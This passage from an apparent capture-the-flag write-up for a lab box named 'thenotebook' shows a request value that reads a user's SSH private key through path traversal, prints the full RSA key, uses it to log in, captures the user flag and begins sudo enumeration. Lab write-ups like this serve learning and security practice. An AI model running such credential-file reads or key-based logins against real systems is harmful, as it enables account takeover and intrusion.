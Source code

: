     home/noah/.ssh/id_rsa.pub

We can then get the "noah" user private SSH key.

    :::text
    cmd=cat%20../home/noah/.ssh/id_rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
    HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
    rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
    HVo4kvIHT0IXveAivxez3UpiulFkaQ4zk37rfHO3wuTWsyZ0vmL7gr3fQRBndrUD
    v4k2zwetxYNt0hjdLDyA+KGWFFeW7ey9ynrMKW2ic2vBucEAUUe+mb0EazO2inhX
    rTAQEgTrbO7jNoZEpf4MDRt7DTQ7dRz+k8HG4wIDAQABAoIBAQDIa0b51Ht84DbH
    +UQY5+bRB8MHifGWr+4B6m1A7FcHViUwISPCODg6Gp5o3v55LuKxzPYPa/M0BBaf
    Q9y29Nx7ce/JPGzAiKDGvH2JvaoF22qz9yQ5uOEzMMdpigS81snsV10gse1bQd4h
    CA4ehjzUultDO7RPlDtbZCNxrhwpmBMjCjQna0R2TqPjEs4b7DT1Grs9O7d7pyNM
    Um/rxjBx7AcbP+P7LBqLrnk7kCXeZXbi15Lc9uDUS2c3INeRPmbFl5d7OdlTbXce
    YwHVJckFXyeVP6Qziu3yA3p6d+fhFCzWU3uzUKBL0GeJSARxISsvVRzXlHRBGU9V
    AuyJ2O4JAoGBAO67RmkGsIAIww/DJ7fFRRK91dvQdeaFSmA7Xf5rhWFymZ/spj2/
    rWuuxIS2AXp6pmk36GEpUN1Ea+jvkw/NaMPfGpIl50dO60I0B4FtJbood2gApfG9
    0uPb7a+Yzbj10D3U6AnDi0tRtFwnnyfRevS+KEFVXHTLPTPGjRRQ41OdAoGBANlU
    kn7eFJ04BYmzcWbupXaped7QEfshGMu34/HWl0/ejKXgVkLsGgSB5v3aOlP6KqEE
    vk4wAFKj1i40pEAp0ZNawD5TsDSHoAsIxRnjRM+pZ2bjku0GNzCAU82/rJSnRA+X
    i7zrFYhfaKldu4fNYgHKgDBx8X/DeD0vLellpLx/AoGBANoh0CIi9J7oYqNCZEYs
    QALx5jilbzUk0WLAnA/eWs9BkVFpQDTnsSPVWscQLqWk7+zwIqq0v6iN3jPGxA8K
    VxGyB2tGqt6jI58oPztpabGBTCmBfh82nT2KNNHfwwmfwZjdsu9I9zvo+e3CXlBZ
    vglmvw2DW6l0EwX+A+ZuSmiZAoGAb2mgtDMrRDHc/Oul3gvHfV6CYIwwO5qK+Jyr
    2WWWKla/qaWo8yPQbrEddtOyBS0BP4yL9s86yyK8gPFxpocJrk3esdT7RuKkVCPJ
    z2yn8QE6Rg+yWZpPHqkazSZO1eItzQR2mYG2hzPKFtE7evH6JUrnjm5LTKEreco+
    8iCuZAcCgYEA1fhcJzNwEUb2EOV/AI23rYpViF6SiDTfJrtV6ZCLTuKKhdvuqkKr
    JjwmBxv0VN6MDmJ4OhYo1ZR6WiTMYq6kFGCmSCATPl4wbGmwb0ZHb0WBSbj5ErQ+
    Uh6he5GM5rTstMjtGN+OQ0Z8UZ6c0HBM0ulkBT9IUIUEdLFntA4oAVQ=
    -----END RSA PRIVATE KEY-----

We use it to connect on the box as "noah" and get the user flag.

    :::text
    └─$ ssh noah@10.129.82.59 -i id_rsa
    <SNIP>
    noah@thenotebook:~$ id
    uid=1000(noah) gid=1000(noah) groups=1000(noah)
    noah@thenotebook:~$ cat user.txt
    4a22cbbbecb491a77b6659fdf00183ba

# root

## Docker

We enumerate our permission on the box.

    :::text
    noah@thenotebook:~$ sudo -l
    Matching Defaults entries for noah on thenotebook:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
